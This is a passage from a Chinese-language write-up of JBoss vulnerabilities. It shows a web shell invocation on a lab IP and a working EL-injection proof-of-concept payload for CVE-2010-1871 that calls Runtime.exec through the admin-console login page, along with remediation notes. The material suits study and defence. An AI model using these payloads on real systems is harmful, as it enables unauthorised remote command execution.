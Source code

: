 ```shell
http://172.16.144.139:8080/shell/shell.jsp?i=touch%201.txt
```

![image-20200701152747850](/images/Jboss/image-20200701152747850.png)

![image-20200701152836122](/images/Jboss/image-20200701152836122.png)

##### 漏洞修复

1、升级最新版本

2、设置登录认证(参考CVE-2007-1036修复)

#### CVE-2010-1871

##### 漏洞描述

`JBossSeam`是一个`JavaEE5`框架，把JSF与`EJB3.0`组件合并在一起，从而为开发基于Web的企业应用程序提供一个最新的模式。

`JBossSeam`处理某些参数化`JBossEL`表达式的方式存在输入过滤漏洞。如果远程攻击者能够诱骗通过认证的`JBossSeam`用户访问特制的网页，就可能导致执行任意代码。

##### 影响范围

JBoss AS = 4.3.0（4.3.0属于企业版，导致部分环境没法搭建复现）

```shell
//4.3.0等版本下载
http://ftp.riken.jp/Linux/redhat/ftp.redhat.com/jboss/eap/4.3.0/en/source/
```

##### 漏洞原理

漏洞是通过`seam`组件中插入`#{payload}`进行模板注入，通过Java反射机制来获取到（`Java.lang.Runtime.getRuntime().exec()`方法），从而可以传入任何想要执行的命令。

##### 漏洞检测

1、漏洞位置描述

漏洞是通过seam组件中插入#{payload}进行模板注入，可以在以下链接中插入要执行的方法，通过Java反射机制来获取到（`Java.lang.Runtime.getRuntime().exec()`方法）,从而可以传入任何想要执行的命令。

```shell
/admin-console/login.seam?actionOutcome=/success.xhtml?user%3d%23{}的#{}
```

2、PoC

cmd代表传入的远程命令。在`/admin-console/login.seam`路径下，POST传入构造好的`payload`，即可对此漏洞利用。

```java
actionOutcome=/success.xhtml?user%3d%23{expressions.getClass().forName('Java.lang.Runtime').getDeclaredMethod('getRuntime').invoke(expressions.getClass().forName('Java.lang.Runtime')).exec(cmd)}
```

##### 漏洞修复

1、补丁修复

